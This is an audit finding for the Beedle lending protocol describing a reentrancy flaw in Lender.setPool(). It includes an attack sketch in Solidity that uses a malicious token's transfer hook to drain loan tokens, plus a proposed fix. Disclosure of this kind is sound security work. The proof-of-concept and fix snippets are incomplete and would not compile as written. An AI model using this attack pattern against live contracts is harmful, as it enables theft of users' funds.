 # `Lender.setPool()` does not follow Check-Effect-Interfaction pattern, nor has `nonReentrant` modifier. A malicious lender might drain almost all loan token in the `Lender` contract.

High

https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L159-L162

https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L175

## Proof of Concept
A malicious lender can create pool with malicious loan token with `_beforeTokenTransfer` callback.

After liquidity increases, it can launch attack by calling `setPool` with poolBalance with slightly less than current pool balance.

```solidity
contract MaliciousLender {
    MaliciousLoanToken      loanToken = new MaliciousLoanToken();
    Lender                  lender;
    uint256 public constant step = 10 ether;

    function attack(
    ) internal {
        Pool memory p = Pool({
            lender: address(this),
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100*10**18,
            poolBalance: pools[poolId].poolBalance - step,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });

        if (p.loanToken.balanceOf(lender) > step) 
            lender.setPool(p);
        else
            swapAtDEX();
    }
}

contract MaliciousLoanToken is ERC20 {
    function _beforeTokenTransfer(
        address from,
        address to,
        uint256 amount
    ) internal {
        maliciousLender.attack();
    }
}
```

It will cause returning excess token back to lender(https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L159-L162).

The issue here is that pool information is not updated before transfer. It does not follow Check-Effect-Interfaction pattern nor has `nonReentrant` modifier.

Thus, next attack can continue, new loan token will be drained at each step.

The attack will continue until amount of loan token left is less than step or all gases are consumed.

The attacker will swap them at DEX to realize profit.


```solidity
    function setPool(Pool calldata p) public returns (bytes32 poolId) {
        ...

        if (p.poolBalance > currentBalance) {
            // if new balance > current balance then transfer the difference from the lender
            IERC20(p.loanToken).transferFrom(
                p.lender,
                address(this),
                p.poolBalance - currentBalance
            );
        } else if (p.poolBalance < currentBalance) {
            // if new balance < current balance then transfer the difference back to the lender
            IERC20(p.loanToken).transfer(
                p.lender,
                currentBalance - p.poolBalance
            ); // @audit - external interfaction - possible reentrancy
        }
        ...

        pools[poolId] = p; // @audit - effect
    }
```


## Impact
A malicious lender might drain almost all loan token in the `Lender` contract if loan token has `_beforeTokenTransfer` callback.

## Tools Used
Manual Review

## Recommendations
Should follow Check-Effect-Interaction pattern and put `nonReentrant` modifier.

```solidity
-   function setPool(Pool calldata p) public returns (bytes32 poolId) {
+   function setPool(Pool calldata p) public returns (bytes32 poolId) nonReentrant {
        ...
+       pools[poolId] = p; // @audit - effect

        if (p.poolBalance > currentBalance) {
            // if new balance > current balance then transfer the difference from the lender
            IERC20(p.loanToken).transferFrom(
                p.lender,
                address(this),
                p.poolBalance - currentBalance
            );
        } else if (p.poolBalance < currentBalance) {
            // if new balance < current balance then transfer the difference back to the lender
            IERC20(p.loanToken).transfer(
                p.lender,
                currentBalance - p.poolBalance
            ); // @audit - external interfaction - possible reentrancy
        }
        ...

-        pools[poolId] = p; // @audit - effect
    }
```
